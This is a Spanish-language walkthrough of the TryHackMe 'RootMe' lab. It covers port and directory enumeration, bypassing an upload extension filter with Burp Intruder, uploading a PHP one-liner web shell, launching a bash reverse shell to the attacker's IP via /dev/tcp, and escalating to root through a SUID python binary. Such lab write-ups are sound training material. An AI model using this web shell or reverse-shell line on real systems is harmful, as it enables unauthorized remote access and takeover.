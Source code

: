 # RootMe

## Información

La máquina a comprometer es **RootMe** de **TryHackMe**.

![](/.gitbook/assets/rootme-img.png)


La URL para acceder a la máquina es <https://tryhackme.com/room/rrootme>. 


## Host discovery

La web de TryHackMe nos devuelva la ip de RootMe, **10.10.156.32**.

Hacemos ping, con la VPN arrancada.

![](/.gitbook/assets/rootme-ping.png)

La TTL ys nos indica que es una máquina Linux por cercanía a 64.

## Enumeración

Primero un escaneo para descubrir puertos:

![](/.gitbook/assets/rootme-nmap1.png)

Vemos dos puertos abiertos. Hacemos un escaneo mas exhaustivo:


![](/.gitbook/assets/rootme-nmap2.png)

Por el puerto 22 poco podemos hacer debido a que no disponemos de credenciales.

Vamos entonces a enumerar el puerto 80.

Hacemos un **whatweb**:

![](/.gitbook/assets/rootme-whatweb.png)

Parece que trabaja con PHP. Abrimos el navegador y vemos que la página es muy simple.

![](/.gitbook/assets/rootme-web.png)

Revisamos código fuente y no vemos nada.

**Wappalyzer** Nos confirma que se ejecuta PHP.

![](/.gitbook/assets/rootme-wappa.png)

Vamos a hacer **FUZZING** sobre la aplicación para ver si se descubren subdirectorios o páginas.

Primero hacemos un escaneo con nmap, menos invasivo.

![](/.gitbook/assets/rootme-nmap3.png)

Interesante solo parece el directorio **uploads**, pero si entramos está vacío.

![](/.gitbook/assets/rootme-web-uploads.png)

Como no hemos encontrado nada relevante vamos a hacer un fuzzing mas agresivo con gobuster.

```bash
gobuster dir -u http://10.10.156.32 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 10 -x php,html,txt
```

Donde:

* dir: Indica que busque subdirectorios
* -u url: La url del objetivo
* -w diccionario: Diccionario de palabras.
* -t num hilos: número de hilos. Para que vaya mas rápido.
* -x extensiones: Por cada palabra del diccionario prueba a agregarle las extensiones, para ver si existe.

![](/.gitbook/assets/rootme-gobuster.png)

Nos encuentra una nueva ruta, **/panel**. Vamos a ver.

![](/.gitbook/assets/rootme-web-panel.png)

Parece que es una opción para subir archivos. Vamos a hacer una prueba subiendo un fichero txt.


![](/.gitbook/assets/rootme-create-txt.png)

![](/.gitbook/assets/rootme-upload-txt1.png)

![](/.gitbook/assets/rootme-upload-txt2.png)

Parece que funciona. Nos vamos a uploads a ver si lo vemos.

![](/.gitbook/assets/rootme-web-uploads-txt1.png)


![](/.gitbook/assets/rootme-web-uploads-txt2.png)

Pues funciona.

## Explotación

Como el servidor ejecuta php vamos a intentar subir una utilidad en PHP. Utilizamos el **OneLiner** para ejecución de comandos PHP:

```php
  <?php system($_REQUEST["cmd"]); ?>
```

Lo intentamos:

![](/.gitbook/assets/rootme-create-php.png)

![](/.gitbook/assets/rootme-upload-php1.png)

![](/.gitbook/assets/rootme-upload-php2.png)

Pues no nos ha dejado. Parece que tiene un filtro por extensiones.

En este punto investigamos en la biblia del hacking ético [HackTricks](https://book.hacktricks.xyz/welcome/readme). Filtramos por **File Upload** y:

![](/.gitbook/assets/rootme-upload-hacktric1.png)

![](/.gitbook/assets/rootme-upload-hacktric2.png)

Vemos que existen varias extensiones para ejecutar PHP. Podríamos intentar ir una pero vamos a utilizar mejor **BurpSuite**.

Primero creamos un diccionario con las extensiones.

![](/.gitbook/assets/rootme-lista-php.png)

Ahora arrancamos BurpSuite e interceptamos la petición del upload.

![](/.gitbook/assets/rootme-burp1.png)

Nos llevamos la petición al intruder, quitamos todas las variables que haya detectado por defecto y añadimos a la extensión. Cargamos la lista en payload.

![](/.gitbook/assets/rootme-burp2.png)

Y lo ejecutamos.

![](/.gitbook/assets/rootme-burp3.png)

Vamos ahora de nuevo al directorio uploads.


![](/.gitbook/assets/rootme-upload-php3.png)

Parece que ha dejado subir varias. Elegimos una, la *.phtml y la invocamos con el parámetro cmd.

![](/.gitbook/assets/rootme-rce_whoami.png)

Pues parece que tenemos ejecución remota de comando. Podemos intentar crearnos una **Reverse Shell**.

Nos ponemos primero a la escucha.

![](/.gitbook/assets/rootme-nc.png)

Ahora, lazamos el siguiente comando para lanzar la reverse shell. LA ip es nuestra ip de atacante.

```bash
bash -c "bash -i >& /dev/tcp/10.8.76.112/443 0>&1"
```

![](/.gitbook/assets/rootme-rce-shell.png)

**IMPORTANTE**: Cuando se envían **&** por la url del navegador, estas suelen dar problemas. Es mejor mandar encodeadas. & es equivalente a **%26**.

![](/.gitbook/assets/rootme-explotacion.png)

Y hemos entrado. Breve enumeración del sistema.

Arreglamos la tty, la consola, para poder operar bien.

![](/.gitbook/assets/rootme-stty.png)

Ahora buscamos la flag de usuario a ver si podemos leerla.

![](/.gitbook/assets/rootme-flag-user.png)

Hemos podido.

## Escalada de privilegios

En este caso es muy sencilla. Buscamos primero ejecutables que tengan permiso de altos privilegios. Privilegios SUID o GUID.

![](/.gitbook/assets/rootme-busqueda-suid.png)

Nos llama la atención python. Cuando un ejecutable tiene altos privilegios cuando se ejecuta se ejecuta lo hace con privilegios de root.

Para investigar que podemos hacer nos vamos a la biblia de la escalada de privilegios [GTFOBINS](https://gtfobins.github.io/) y filtramos por python. 

![](/.gitbook/assets/rootme-gtfobins1.png)

Pulsamos en **SUID**.

![](/.gitbook/assets/rootme-gtfobins2.png)

Al no tener credenciales no podemos lanzar la linea de sudo, pero lanzamos la segunda a ver que pasa.

![](/.gitbook/assets/rootme-root.png)

Hemos escalado y ya tenemos la bandera del root.



